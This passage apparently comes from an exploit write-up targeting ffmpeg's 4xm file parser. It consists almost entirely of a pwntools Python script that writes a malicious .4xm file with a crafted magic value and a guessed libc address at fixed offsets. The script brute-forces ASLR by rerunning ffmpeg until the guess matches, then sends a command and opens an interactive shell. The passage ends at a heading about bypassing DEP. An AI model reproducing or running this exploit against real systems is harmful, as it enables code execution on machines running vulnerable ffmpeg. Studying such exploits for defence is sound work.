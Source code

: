 ```python
pwned = False

p = log.progress('ASLR bruteforcing: no match yet! fishsticks..')
while pwned != True:
    libc_base_guess = randlibc()
    f = open('./dracula.4xm', 'w')

    f.seek(0x148)
    f.write(p32(0x8d3725a9))
    f.seek(0x168)
    f.write(p32(libc_base_guess+0x3ac8c))
    f.close()

    #import pdb; pdb.set_trace()
    r = context.log_level
    context.log_level = logging.CRITICAL
    io = process([ffmpeg_path, '-i', './dracula.4xm'])
    libc_base = io.libs()['/lib/i386-linux-gnu/libc.so.6']
    if hex(libc_base_guess) == hex(libc_base):
        sleep(1)
        context.log_level = logging.INFO
        sleep(.5)
        log.success('got a match! {} == {}'.format(hex(libc_base_guess), hex(libc_base)))
    else:
        #log.failure('no match! {} != {}'.format(hex(io.libs()['/lib/i386-linux-gnu/libc.so.6']), hex(libc_base)))
        sleep(.5)
        io.close()
        continue
    try:
        io.recv()
        io.send('id')
        b = io.recv()
        log.info(b)
        if 'Unknown format' in b:
            sleep(.5)
            io.close()
            break
    except EOFError:
        sleep(.5)
        io.close()
        break
#context.log_level = r
if context.log_level == logging.CRITICAL:
    sys.exit(2)
io.interactive()
```

## Bypassing DEP
